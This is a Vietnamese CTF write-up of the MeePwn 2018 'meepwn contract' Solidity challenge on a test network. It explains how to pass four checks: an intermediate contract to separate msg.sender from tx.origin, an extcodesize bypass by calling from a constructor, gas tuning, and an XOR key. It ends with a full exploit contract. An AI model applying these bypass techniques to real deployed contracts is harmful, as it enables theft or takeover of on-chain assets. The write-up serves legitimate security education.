 ```yaml
---
layout: post
title:  "Meepwn CTF Qualification Round 2018 - meepwn contract write-up"
date: 2018-08-01 15:25:00 +0700
categories: ctf blockchain smartcontract
---
```


X-post: [https://viblo.asia/p/write-up-meepwn-contract-meepwn-ctf-qualification-round-2018-Qbq5QLAmlD8](https://viblo.asia/p/write-up-meepwn-contract-meepwn-ctf-qualification-round-2018-Qbq5QLAmlD8)

# Task
[https://scoreboard.meepwn.team/task](https://scoreboard.meepwn.team/task)

![](https://images.viblo.asia/fd265c3f-adf9-428b-8bee-30682193eff2.png)

<!--description-->

Source code của "gate":

```js
pragma solidity ^0.4.18;

contract Meepwn_Wire
{
    address public entrant;

    constructor()
    {
        entrant = msg.sender;
    }

    function isAccountAddress(address addr) private returns(bool)
    {
        uint x;
        assembly { x := extcodesize(caller) }
        return x == 0;
    }

    function exploitMe(bytes8 _key)
    {
        require(msg.sender != tx.origin);
        require(isAccountAddress(msg.sender));
        require(msg.gas % 1337 == 0);
        require(uint64(_key) ^ uint64(sha3(msg.sender)) ^ uint64(sha3(address(this))) == 0x13371337);

        entrant = tx.origin;
    }
}
```

Interface của contract chính:

```js
pragma solidity ^0.4.18;

contract MeePwnMain {

  function getNewInstance() public payable returns(address) {}
  function submitInstance(string email) public returns(bytes32) {}
}
```

sau khi truy cập đến [http://178.128.87.12/smart-contract](http://178.128.87.12/smart-contract) những việc bạn cần làm như sau (hiện site đã không truy cập được nữa, mình xin phép tóm tắt lại theo...kí ức của mình :smile:)

- Sẽ có một contract chính tại địa chỉ [0x3da169ad88c8f419b57e181fe971b33993dfdc81](https://ropsten.etherscan.io/address/0x3da169ad88c8f419b57e181fe971b33993dfdc81) được deploy trên Testnet Ropsten
- Bạn sẽ gọi hàm `getNewInstance` chuyển 0.1 ETH vào địa chỉ này, contract chính sẽ deploy contract **Meepwn_Wire** ở trên và gán `entrant = msg.sender` tức là địa chỉ của contract chính.
- Nhiệm vụ của bạn làm thế nào đó, dùng hàm `exploitMe`, vượt qua tất cả các "gate", set lại biến `entrant` thành địa chỉ của mình (pwned !)
- Sau đó gọi hàm `submitInstance` kèm với email của mình để chứng minh mình đã làm được, để hệ thống gửi flag về email mà bạn submit.

Về cơ bản, mô hình này khá giống với [Ethernaut](https://ethernaut.zeppelin.solutions/) cụ thể hơn thì bạn có thể tham khảo thêm các bài write-up của anh @kiendinang trên Viblo, với nhiều cấp độ từ dễ đến khó.

# Walk Through

Mình xin tóm tắt các bước để vượt qua các gate như sau:

## Gate 1
`require(msg.sender != tx.origin);` : Trong Solidity thì `msg.sender` là thứ/người trực tiếp gọi hàm của contract, còn `tx.origin` là người tạo ra transaction. Do vậy `tx.origin` sẽ luôn là người dùng, còn `msg.sender` thì có thể là người dùng hoặc là một contract khác. Do vậy ta có mô hình sau:

```
A (người dùng) -> B (exploit contract) -> C (Meepwn_Wire contract)
```

Với mô hình này sẽ đảm bảo được `msg.sender != tx.origin`

## Gate 2

`require(isAccountAddress(msg.sender));` : Gate này đúng như tên hàm, kiểm tra xem địa chỉ đang tương tác với contract, có phải là người dùng không hay là một contract khác ? và **Meepwn_Wire** yêu cầu `msg.sender` phải là một account người dùng thông qua việc kiểm tra storage của account có chứa code hay không bằng đoạn assembly (nếu địa chỉ là người dùng thì sẽ codesize == 0, và ngược lại nếu đó là một contract khác)

```js
assembly { x := extcodesize(caller) }
```

Nếu vậy, trick chúng ta dùng ở bước 1 sẽ fail ? Tuy nhiên, có một thời điểm mà codesize của một contract bằng 0, đó chính là thời điểm mà contract được deploy (nói cách khác, khi đang chạy contructor của contract), như được note trong [yellow paper](https://github.com/ethereum/yellowpaper) của Ethereum. Vậy để pass qua gate này, ta cần thực hiện exploit trong contructor của contract. Đến đây ta có thể xây dựng được contract tạm thời dùng để exploit như sau:

```js
contract HackMeepwn_Wire {

    address public target = 0x9a6210545c23d287496c518564b3db5f3efb2918;

    constructor()
    {
        Meepwn_Wire t = Meepwn_Wire(target);
        t.exploitMe(????);
    }
}
```

với target là địa chỉ của contract `Meepwn_Wire` mà contract chính đã deploy. Để biết được địa chỉ này, bạn có thể tìm đến transaction `getNewInstance` trên [https://ropsten.etherscan.io/](https://ropsten.etherscan.io/) và kiểm tra tab `Internal Transactions`.

## Gate 3

`require(msg.gas % 1337 == 0);` : Gate này yêu cầu số gas còn lại (`msg.gas`) tại thời điểm thực hiện kiểm tra phải chia hết cho 1337. Để thực hiện điều này, ta có thể gọi hàm `exploitMe` theo cách sau:

```js
t.exploitMe.gas(xxx)(????)
```

với `xxx` là số gas dùng để chạy hàm `exploitMe`. Như vậy chúng ta sẽ control được số gas truyền vào. Vậy truyền vào bao nhiêu gas để thoả mãn ? Mình sẽ làm theo cách thử saim truyền vào 1 số gas tuỳ ý, và kiểm tra instruction trên Remix.

```js
contract HackMeepwn_Wire {

    address public target = 0x9a6210545c23d287496c518564b3db5f3efb2918;

    constructor()
    {
        Meepwn_Wire t = Meepwn_Wire(target);
        t.exploitMe.gas(98000)(0x41414141);
    }
}
```

Ví dụ chạy với gas 98000, chắc chắn transaction sẽ fail, bằng sử dụng môi trường Javascript VM trên Remix sẽ cho phép chúng ta debug:
![](https://images.viblo.asia/a22a0df6-77f0-4920-b715-634fa749ffda.png)

Click `Debug`, mở phần `Instructions` và `Stack` và step qua từng instruction cho đến đoạn kiểm tra số gas:

![](https://images.viblo.asia/bd209629-0feb-4b81-934e-bb8d9d5f8705.png)

IP hiện đang ở 363, ngay sau khi chúng ta chạy xong `GAS`, top stack lúc này sẽ chính là số gas còn lại: `0x17abc = 96956` (tại ngăn tiếp theo chính là giá trị `0x539` = 1337). Vậy ta sẽ có gas thoả mãn là:

```
98000 - 96956 % 1337 = 97308
```

**Note**: Để đảm bảo debug đúng thì version compiler và thiết lập optimize của bạn và đề bài phải giống nhau, rất may, đều đang là version `soljson-v0.4.24+commit.e67f0147.js` :smile:, cơ mà nếu có sai thì cũng sai khác nhau không quá 100 gas, chúng ta có thể brute-force được :laughing:

## Gate 4

`require(uint64(_key) ^ uint64(sha3(msg.sender)) ^ uint64(sha3(address(this))) == 0x13371337);` : gate này là khá đơn giản (tuy nhiên trong thời gian thi BTC đã không may đeploy nhầm source code đoạn này khiến các đội thi tốn cỡ "1 tiếng" tìm cách brute-force 8 bytes sha3 (nếu thực sự có team định làm vậy :sweat_smile:)), đây là phép XOR và chúng ta làm lại như sau:

```js
_key = bytes8(uint64(sha3(this)) ^ uint64(sha3(address(target))) ^ 0x13371337)

```

`this` ở đây sẽ cho ra địa chỉ contract exploit của chúng ta.

## Full Exploit

(Test thử trên Remix trước cho chắc ăn rồi hãy submit nhé)

```js
contract HackMeepwn_Wire {

    address public target = 0x9a6210545c23d287496c518564b3db5f3efb2918;

    constructor()
    {
        Meepwn_Wire t = Meepwn_Wire(target);
        t.exploitMe.gas(97308)(bytes8(uint64(sha3(this)) ^ uint64(sha3(address(target))) ^ 0x13371337));
    }
}
```

Việc còn lại là thực hiện `submitInstance` và chờ mail flag về:

![](https://images.viblo.asia/24d169be-0e35-4eb1-8c0c-c715b9ed1b46.png)

# References
- https://viblo.asia/s/blockchain-smart-contract-Am5yq0mq5db
- http://solidity.readthedocs.io/en/v0.4.24/
